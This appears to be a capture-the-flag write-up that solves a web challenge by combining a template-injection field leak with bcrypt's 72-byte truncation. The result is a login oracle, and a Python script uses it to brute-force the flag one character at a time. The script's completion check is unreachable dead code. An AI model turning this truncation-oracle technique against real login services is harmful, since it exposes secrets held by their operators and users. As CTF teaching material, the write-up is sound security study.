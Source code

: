 The template method seems to be a custom function that performs string interpolation using double curly braces `({{}})`. It retrieves values from class fields with matching names. However, its implementation has security vulnerabilities as it doesn't properly validate field types or access restrictions. So that we can input `{{flag}}` to get the flag. 
```java!=
public String flag = System.getenv("FLAG");
```
The idea that i use to solve is [this one](https://security.stackexchange.com/questions/39849/does-bcrypt-have-a-maximum-password-length/184090#184090). 

> However, there is a considerable amount of confusion on the actual limit. Some people believe that the "56 bytes" limit includes a 4-byte salt, leading to a lower limit of 51 characters. Other people point out that the algorithm, internally, manages things as 18 32-bit words, for a total of 72 bytes, so you could go to 71 characters (or even 72 if you don't manage strings with a terminating zero).

So the maximum length of the bcrypt password is 72 bytes. so the idea is i register with 72 bytes minus length of the flag and login with the string that we get that is the flag. For example:
`amateursCTF{a`, `amateursCTF{b` and so on. If they match with the flag i register that is the next character of the flag.

The exploit script:

```python!=
import requests
import string
import os

url = "http://creative-login-page.amt.rs"

s = "amateursCTF{"
# s = "amateursCTF{1_l0v3_l0gin_pAges}"

username = os.urandom(16).hex()
while True:
    for c in string.ascii_letters + string.digits + "_-}":
        s += c
        pass_register = "i" * (72 - len(s)) + '{{flag}}'
        pass_login = "i" * (72 - len(s)) + s
        res_register = requests.post(url + "/register", data={"username": username, "password": pass_register})
        res_login = requests.post(url + "/login", data={"username": username, "password": pass_login})
        if "Hello" in res_login.text:
            username = os.urandom(16).hex()
            print("[+] Flag brute force success: ", s)
            continue
            if "}" in s:
                print("[+] Flag: ", s)
                break
        else:
            s = s[:-1]
```
